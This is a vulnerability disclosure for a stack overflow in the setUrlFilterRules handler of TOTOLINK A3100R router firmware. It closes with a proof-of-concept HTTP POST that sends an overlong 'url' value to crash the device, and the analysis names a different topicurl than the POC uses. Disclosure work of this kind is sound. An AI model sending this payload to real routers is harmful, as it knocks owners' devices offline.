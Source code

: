 #firewall.so setUrlFilterRules stack buffer overflow

##A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

##Description:
The setUrlFilterRules function in the firewall.so module does not filter the "url"  parameter, and a stack overflow occurs when strcpy  is performed

##Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

##Analyse:
The program reads a user inputed named "url"   in users's POST request and uses the input immediately,without checking it's length ,which can lead to buffer overflows bugs in the following strcpy function.


![](./img/19.png)


So by Posting proper data to topicurl:"setting/setParentalRules",the attacker can easily perform a Deny of service Attack.


##POC
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 321

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/firewall/url_filtering.asp?timestamp=1650007602442

Cookie: SESSION_ID=2:1588588354:2



{"topicurl":"setting/setUrlFilterRules","url":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","addEffect":"0"}
```

![](./img/21.png)
![](./img/20.png)


